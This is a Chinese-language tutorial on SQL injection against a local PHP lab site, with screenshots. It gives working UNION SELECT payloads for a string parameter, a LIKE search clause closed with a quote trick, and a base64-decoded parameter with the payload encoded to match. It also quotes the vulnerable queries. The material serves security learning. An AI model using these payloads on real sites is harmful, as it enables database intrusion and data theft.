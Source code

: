 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135219596-8fb66d8f-900a-45c6-ab7f-efdd4080c48f.png)

```plain
执行：http://127.0.0.1:8081/web/news.php?gtpl=simple' +UNION+ALL+SELECT+1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+
就可以进行正确的注入语句。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135220179-5159f96f-c93d-41d7-8f89-319c43e0ac97.png)

搜索

```plain
搜索型
SQL语句：$sql="select * from sy_guestbook where gName like '%$s%'";
http://127.0.0.1:8081/web/news.php?search=演示
有百分号%通配符和单引号，需要进行闭合
本身SQL语句：select * from sy_guestbook where gName like '%$s%'
写入语句：http://127.0.0.1:8081/web/news.php?search=演示%' +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+
代入执行：select * from sy_guestbook where gName like '%演示%' +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+%'
但是这种在后面闭合不了。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135220087-47a24cf2-72ed-410f-8e36-745722fe17eb.png)

```plain
SQL语句：http://127.0.0.1:8081/web/news.php?search=演示%' +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 and '%'='
代入：select * from sy_guestbook where gName like '%演示%' +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 and '%'='%'
这样子就正确执行。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135220106-5123e505-fa60-4839-b6c2-d8bab13a0a77.png)

编码

```plain
编码型&加密型
SQL语句：数据接受：$b=base64_decode($_GET['base']);     $sql="select * from sy_guestbook where id=$b";
http://127.0.0.1:8081/web/news.php?base=MQ==
数据进行编码（加密）后接收处理：
数据以编码（加密）值传递，发送编码值，对方常会进行解码后带入数据在进行SQL执行。在注入的时候，我们也要尝试对注入的payload进行编码后提交。
在注入的时候，需要进行编码后在进行注入：
正常语句：http://127.0.0.1:8081/web/news.php?base=1 UNION SELECT 1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
经过编码后：
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135220053-859fe576-6cf9-4fec-be3d-4ef86743fb47.png)

编码后：http://127.0.0.1:8081/web/news.php?base=MSBVTklPTiBTRUxFQ1QgMSxkYXRhYmFzZSgpLDMsNCw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTUsMTYsMTc=
